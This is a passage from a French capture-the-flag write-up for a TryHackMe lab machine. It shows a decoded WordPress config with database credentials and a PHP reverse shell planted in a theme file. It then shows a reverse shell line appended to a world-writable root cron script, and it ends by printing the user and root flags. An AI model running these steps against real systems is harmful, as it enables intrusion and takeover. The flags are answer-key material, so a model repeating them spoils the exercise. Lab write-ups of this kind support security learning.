B1bmlxdWUgcGhyYXNlcyENCiAqIFlvdSBjYW4gZ2VuZXJhdGUgdGhlc2UgdXNpbmcgdGhlIHtAbGluayBodHRwczovL2FwaS53b3JkcHJlc3Mub3JnL3NlY3JldC1rZXkvMS4xL3NhbHQvIFdvcmRQcmVzcy5vcmcgc2VjcmV0LWtleSBzZXJ2aWNlfQ0KICogWW91IGNhbiBjaGFuZ2UgdGhlc2UgYXQgYW55IHBvaW50IGluIHRpbWUgdG8gaW52YWxpZGF0ZSBhbGwgZXhpc3RpbmcgY29va2llcy4gVGhpcyB3aWxsIGZvcmNlIGFsbCB1c2VycyB0byBoYXZlIHRvIGxvZyBpbiBhZ2Fpbi4NCiAqDQogKiBAc2luY2UgMi42LjANCiAqLw0KZGVmaW5lKCAnQVVUSF9LRVknLCAgICAgICAgICd6a1klbSVSRlliOnUsL2xxLWlafjhmakVOZElhU2I9Xms8M1pyLzBEaUxacVB4enxBdXFsaTZsWi05RFJhZ0pQJyApOw0KZGVmaW5lKCAnU0VDVVJFX0FVVEhfS0VZJywgICdpQVlhazxfJn52OW8re2JAUlBSNjJSOSBUeS0gNlUteUg1YmFVRHs7bmRTaUNbXXFvc3hTQHNjdSZTKWQkSFtUJyApOw0KZGVmaW5lKCAnTE9HR0VEX0lOX0tFWScsICAgICdhUGRfKnNCZj1adWMrK2FdNVZnOT1QfnUwM1EsenZwW2VVZS99KUQ9Ok55aFVZe0tYUl10N300MlVwa1tyNz9zJyApOw0KZGVmaW5lKCAnTk9OQ0VfS0VZJywgICAgICAgICdAaTtUKHt4Vi9mdkUhcyteZGU3ZTRMWDN9TlRAIGo7YjRbejNfZkZKYmJXKG5vIDNPN0ZAc3gwIW95KE9gaCNNJyApOw0KZGVmaW5lKCAnQVVUSF9TQUxUJywgICAgICAgICdCIEFUQGk+KiBOI1c8biEqfGtGZE1uUU4pPl49XihpSHA4VXZnPH4ySH56Rl1pZHlRPXtAfTF9KnJ7bFowLFdZJyApOw0KZGVmaW5lKCAnU0VDVVJFX0FVVEhfU0FMVCcsICdoeDhJOitUejhuMzM1V2htels+JFVaOzhyUVlLPlJ6XVZHeUJkbW83PSZHWiFMTyxwQU1zXWYhelZ9eG46NEFQJyApOw0KZGVmaW5lKCAnTE9HR0VEX0lOX1NBTFQnLCAgICd4N3I+fGMwTUxecztTdzIqVSF4LntgNUQ6UDF9Vz0gL2Npe1E8dEVNPXRyU3YxZWVkfF9mc0xgeV5TLFhJPFJZJyApOw0KZGVmaW5lKCAnTk9OQ0VfU0FMVCcsICAgICAgICd2T2IlV3R5fSR6eDlgfD40NUlwQHN5WiBdRzpDM3xTZEQtUDM8e1lQOi5qUERYKUh9d0dtMSpKXk1TYnMkMWB8JyApOw0KDQovKiojQC0qLw0KDQovKioNCiAqIFdvcmRQcmVzcyBEYXRhYmFzZSBUYWJsZSBwcmVmaXguDQogKg0KICogWW91IGNhbiBoYXZlIG11bHRpcGxlIGluc3RhbGxhdGlvbnMgaW4gb25lIGRhdGFiYXNlIGlmIHlvdSBnaXZlIGVhY2gNCiAqIGEgdW5pcXVlIHByZWZpeC4gT25seSBudW1iZXJzLCBsZXR0ZXJzLCBhbmQgdW5kZXJzY29yZXMgcGxlYXNlIQ0KICovDQokdGFibGVfcHJlZml4ID0gJ3dwXyc7DQoNCi8qKg0KICogRm9yIGRldmVsb3BlcnM6IFdvcmRQcmVzcyBkZWJ1Z2dpbmcgbW9kZS4NCiAqDQogKiBDaGFuZ2UgdGhpcyB0byB0cnVlIHRvIGVuYWJsZSB0aGUgZGlzcGxheSBvZiBub3RpY2VzIGR1cmluZyBkZXZlbG9wbWVudC4NCiAqIEl0IGlzIHN0cm9uZ2x5IHJlY29tbWVuZGVkIHRoYXQgcGx1Z2luIGFuZCB0aGVtZSBkZXZlbG9wZXJzIHVzZSBXUF9ERUJVRw0KICogaW4gdGhlaXIgZGV2ZWxvcG1lbnQgZW52aXJvbm1lbnRzLg0KICoNCiAqIEZvciBpbmZvcm1hdGlvbiBvbiBvdGhlciBjb25zdGFudHMgdGhhdCBjYW4gYmUgdXNlZCBmb3IgZGVidWdnaW5nLA0KICogdmlzaXQgdGhlIGRvY3VtZW50YXRpb24uDQogKg0KICogQGxpbmsgaHR0cHM6Ly93b3JkcHJlc3Mub3JnL3N1cHBvcnQvYXJ0aWNsZS9kZWJ1Z2dpbmctaW4td29yZHByZXNzLw0KICovDQpkZWZpbmUoICdXUF9ERUJVRycsIGZhbHNlICk7DQoNCi8qIFRoYXQncyBhbGwsIHN0b3AgZWRpdGluZyEgSGFwcHkgcHVibGlzaGluZy4gKi8NCg0KLyoqIEFic29sdXRlIHBhdGggdG8gdGhlIFdvcmRQcmVzcyBkaXJlY3RvcnkuICovDQppZiAoICEgZGVmaW5lZCggJ0FCU1BBVEgnICkgKSB7DQoJZGVmaW5lKCAnQUJTUEFUSCcsIF9fRElSX18gLiAnLycgKTsNCn0NCg0KLyoqIFNldHMgdXAgV29yZFByZXNzIHZhcnMgYW5kIGluY2x1ZGVkIGZpbGVzLiAqLw0KcmVxdWlyZV9vbmNlIEFCU1BBVEggLiAnd3Atc2V0dGluZ3MucGhwJzsNCg==" | base64 -d
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', 'H@ckme@123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

wordpress;
define( 'WP_SITEURL', 'http://' .$_SERVER['HTTP_HOST'].'/wordpress');
define( 'WP_HOME', 'http://' .$_SERVER['HTTP_HOST'].'/wordpress');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'zkY%m%RFYb:u,/lq-iZ~8fjENdIaSb=^k<3Zr/0DiLZqPxz|Auqli6lZ-9DRagJP' );
define( 'SECURE_AUTH_KEY',  'iAYak<_&~v9o+{b@RPR62R9 Ty- 6U-yH5baUD{;ndSiC[]qosxS@scu&S)d$H[T' );
define( 'LOGGED_IN_KEY',    'aPd_*sBf=Zuc++a]5Vg9=P~u03Q,zvp[eUe/})D=:NyhUY{KXR]t7}42Upk[r7?s' );
define( 'NONCE_KEY',        '@i;T({xV/fvE!s+^de7e4LX3}NT@ j;b4[z3_fFJbbW(no 3O7F@sx0!oy(O`h#M' );
define( 'AUTH_SALT',        'B AT@i>* N#W<n!*|kFdMnQN)>^=^(iHp8Uvg<~2H~zF]idyQ={@}1}*r{lZ0,WY' );
define( 'SECURE_AUTH_SALT', 'hx8I:+Tz8n335Whmz[>$UZ;8rQYK>Rz]VGyBdmo7=&GZ!LO,pAMs]f!zV}xn:4AP' );
define( 'LOGGED_IN_SALT',   'x7r>|c0ML^s;Sw2*U!x.{`5D:P1}W= /ci{Q<tEM=trSv1eed|_fsL`y^S,XI<RY' );
define( 'NONCE_SALT',       'vOb%Wty}$zx9`|>45Ip@syZ ]G:C3|SdD-P3<{YP:.jPDX)H}wGm1*J^MSbs$1`|' );

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

Dans le fichier wp-config.php on voit un identifiant :
Nom : elyana   
Mot de passe : H@ckme@123  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-07 09:59:45 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 
```

On télécharge un reverse shell et on le configure.   


On se connect sur http:\/\/allinone.thm\/wordpress\/wp-login.php
On s'identifie.


On met un reverse shell dans 404.php qui est dans Appearance, dans un thème qui est pas actif.   


On active le bon thème.      

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le bon pour avoir le shell.    


Dans le navigateur on met le nom du chemin du fichier 404.php du thème.   

**user.txt**

```bash
$ ls /home/
elyana
$ cat /home/elyana/user.txt
cat: /home/elyana/user.txt: Permission denied

$ python3 -c "import pty;pty.spawn('/bin/bash')"
bash-4.4$ 

cat /crontab
cat: /crontab: No such file or directory
bash-4.4$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /var/backups/script.sh
```

On est sur l'utilisateur www-data.   
On a pas les droits pour lire le fichier user.txt.    
On voit qu'il a un script pour exécuté dans une tâche crontab.   

```bash
ls -al /var/backups/script.sh
-rwxrwxrwx 1 root root 73 Oct  7  2020 /var/backups/script.sh

bash-4.4$ echo "sh -i >& /dev/tcp/10.9.228.66/1243 0>&1" >> /var/backups/script.sh
```

On peut écrire dans le script.    
On met un reverse shell dans le script.    

```bash
nc -lvnp 1243
```

On écoute le port et on attend 1 à 2 minutes.     

```bash
listening on [any] 1243 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.148.22] 46970
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /home/elyana/user.txt
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259

```

On obtient un shell root.    
On peut lire le fichier user on a le flag.   

Réponse : VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259     

**root.txt**

```bash
# cat /root/root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```

On peut lire le fichier root.txt     

La réponse est : VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9      